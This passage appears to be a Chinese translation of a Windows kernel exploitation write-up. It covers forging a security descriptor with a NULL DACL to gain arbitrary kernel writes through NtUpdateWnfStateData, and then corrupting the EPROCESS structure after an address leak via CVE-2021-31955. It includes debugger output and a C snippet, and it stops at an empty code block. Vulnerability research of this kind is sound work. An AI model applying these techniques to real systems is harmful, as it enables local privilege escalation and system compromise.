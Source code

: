 在将安全描述符重定向到用户空间结构后：  
```
1: kd> dx -id 0,0,ffffce86a715f300 -r1 ((ntkrnlmp!_SECURITY_DESCRIPTOR *)0x23ee3ab6ea0)((ntkrnlmp!_SECURITY_DESCRIPTOR*)0x23ee3ab6ea0)                 : 0x23ee3ab6ea0 [Type: _SECURITY_DESCRIPTOR *]    [+0x000] Revision         : 0x1 [Type: unsigned char]    [+0x001] Sbz1             : 0x0 [Type: unsigned char]    [+0x002] Control          : 0xc [Type: unsigned short]    [+0x008] Owner            : 0x0 [Type: void*]    [+0x010] Group            : 0x0 [Type: void *]    [+0x018] Sacl             : 0x0 [Type: _ACL*]    [+0x020] Dacl             : 0x23ee3ab4350 [Type:_ACL *]
```  
  
随后，我尝试提供具有相同值的伪造安全描述符。这并未如预期般工作，NtUpdateWnfStateData  
 仍然返回权限被拒绝（-1073741790）。  
  
那么，让我们将 DACL 设置为 NULL，这样 Everyone 组就拥有了  
完全控制权限  
。  
  
经过更多实验后，使用以下值修补伪造的安全描述符成功，数据被成功写入我指定的任意位置：  
```
SECURITY_DESCRIPTOR*sd = (SECURITY_DESCRIPTOR*)malloc(sizeof(SECURITY_DESCRIPTOR));sd->Revision = 0x1;sd->Sbz1 = 0;sd->Control = 0x800c;sd->Owner = 0;sd->Group = (PSID)0;sd->Sacl = (PACL)0;sd->Dacl = (PACL)0;
```  
## EPROCESS 结构体破坏  
  
最初在测试任意写操作时，我预期当将 StateData 指针设置为 0x6161616161616161 时，会在 memcpy 位置附近发生内核崩溃。然而，实际上 ExpWnfWriteStateData  
 的执行是在一个工作线程中进行的。当发生访问违规时，该异常会被捕获，并将 NT 状态码 -1073741819（即 STATUS_ACCESS_VIOLATION  
）传播回用户空间。这使得初始调试更具挑战性，因为该函数周围的代码是一个显著的热点路径，使用条件断点会导致程序严重停滞。  
  
无论如何，在实现任意写操作后，攻击者通常会利用它来执行基于数据的权限提升或实现任意代码执行。  
  
由于我们使用   
CVE-2021-31955  
 来泄露   
EPROCESS  
 地址，我们将继续沿着这条路径进行研究。  
  
回顾一下，需要采取以下步骤：  
1. 内部 StateName 与正确的内部 StateName 匹配，以便在需要时可以找到正确的外部 StateName。  
  
1. 安全描述符通过 ExpWnfCheckCallerAccess  
 中的检查。  
  
1. DataSize 和 AllocSize 的偏移量适合所需的内存区域。  
  
总结来说，在发生溢出后，我们有以下内存布局，其中 EPROCESS 被当作 _WNF_STATE_DATA  
 处理：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCMOrJ5glbHvfqL39ib8UoWC6tdaqGmG5JvTRejVZGSuIW5HZTSf2uVy8geWZZdQUynKdYEgYrGZa2g/640?wx_fmt=png&from=appmsg "")  
  
然后我们可以演示如何破坏 EPROCESS 结构体：  
```
```